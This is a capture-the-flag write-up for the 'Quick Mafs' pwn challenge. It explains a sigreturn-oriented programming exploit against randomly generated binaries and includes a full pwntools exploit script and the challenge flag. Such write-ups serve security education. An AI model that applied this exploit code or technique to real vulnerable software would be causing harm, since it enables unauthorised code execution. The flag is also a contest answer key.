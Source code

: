 # Quick Mafs

## Challenge

When we connect to the server, we are given instructions to call `print` with a specific RAX value.

We are also given a binary to exploit, encoded as a hexadecimal string.

Each binary has PIE disabled and no canary, allowing us to use return oriented programing with gadgets present in the binary.

There are also 160 provided gadgets, which all perform an arithmetic operation on RAX with some constant value.
The operations include addition, subtraction, and xor.
THe constants are random 16 bit values.
The operations and constants for each gadget is randomized between runs.

We are allowed to send a single input as a hexadecimal encoded string to the server, which will be passed to the binary.

If we successfully solve 5 challenges consecutively, we are given the flag.

## Solution

The proper solution would be to parse the 160 provided gadgets and use a symbolic solver such as [Z3](https://github.com/Z3Prover/z3).

But I came here to do pwn, not math, so that's what we're going to do.

We can use the return value of the read system call to set RAX to set up other system calls.
This isn't enough to set RAX to meet the challenge instructions, as we are limited to RAX <= 0x2000 while the target could be as high as 0xffff.

One syscall that comes to mind is sigreturn, which allows us to set every register.
We can use this to set RAX to the target value, RSP to an arbitrary writable address, and RIP to the `print` function.
However, we need approximately 0x100 characters to set up the sigreturn frame to specify these registers, while RAX needs to be 15 to call this sycall.
This problem is solved by setting up the sigreturn frame in the first syscall, but using a second read before reaching it to set RAX to 15.

This solution brings a new challenge based on the design of the challenge.
We are limited to a single message at the start of the challenge, we cannot simply wait for the first read to finish before sending the second input.
This is solved by padding our first read to the full 0x2000 bytes so that any excess bytes will have to be read by the second read syscall.

This works locally, but usually fails on the remote.
After talking to the CTF organizers, the challenge has buffering-related issues with large inputs.
This resulted in the sigreturn method described above only working about once every 5 or 10 runs. 
We needed 5 successes in a row, so this was quite an issue.
I added a small optimization where, if the target was less than 0x2000, I used the first read syscall to set RAX without the sigreturn.
Combining these methods, I tried running the program many times, as I would occasionally get 2 or 3 successes in a row still.
On around 3 runs, I even got 4 successes in a row, but never the 5 I needed, and I realized that I had to revise my strategy.

Still wanting to avoid doing actual math or solving, I realised I could use a single subtraction gadget to get my RAX to 15 after the first read.
To do so, I parsed all the provided gadgets and searched for one which would subtract a value from RAX that was greater than my payload,
but low enough that I could avoid buffering problems.
Then I would pad my payload to be 15 bytes greater than the subtract gadget value, so after the subtraction RAX would be 15.
This allowed me to more reliably execute the sigreturn and set RAX.
While this approach still failed occasionally, as sometimes no gadget existed within these specifications,
it was reliable enough to get a flag within a few runs.

## Exploit

```py
#!/usr/bin/env python3

from pwn import *
import r2pipe

p = remote("tamuctf.com", 443, ssl=True, sni="quick-mafs")

for binary in range(5):
    instructions = p.recvline() # the server will give you instructions as to what your exploit should do
    p.info("INSTRUCTIONS: " + instructions.decode())
    instructions = instructions.split()
    targetrax = int(instructions[-1], 0)

    with open("elf", "wb") as file:
        file.write(bytes.fromhex(p.recvline().rstrip().decode()))

    exe = context.binary = ELF('elf')

    r = r2pipe.open(exe.path)
    r.cmd('aaa')
    syscall = r.cmdj('pdfj @ sym.vuln')['ops'][-4]['offset']

    gadgets = r.cmdj('pdj 480 @ sym.gadgets + 0xc')
    gadgets = [gadgets[i:i+3] for i in range(0, len(gadgets), 3)]

    # print(gadgets)

    constants_raw = r.cmdj('p8j 320 @ obj.constants')
    constants = [constants_raw[i] + constants_raw[i+1] * 0x100 for i in range(0, len(constants_raw), 2)]

    # print(constants)

    for i in range(len(gadgets)):
        if gadgets[i][1]['opcode'] == "sub ax, word [rbx]" and constants[i] < 0xe00 and constants[i] >= 0x110:
            constant = constants[i]
            gadget = gadgets[i]
            break

    length = constant + 15

    # print(gadget)

    p.info("CONSTANT: " + hex(constant))
    p.info("LENGTH: " + hex(length))

    frame = SigreturnFrame()
    frame.rax = targetrax
    frame.rip = exe.sym['print']
    frame.rsp = exe.address + 0x4600

    payload = flat({
        0x8: [
            gadget[0]['offset'],
            syscall,
            frame,
            ],
        }, length=length)

    p.sendline(payload.hex().encode())

p.interactive()
```

## Flag

```
gigem{7w0_qu4dr1ll10n?_7h475_r34lly_qu1ck_m47h}
```
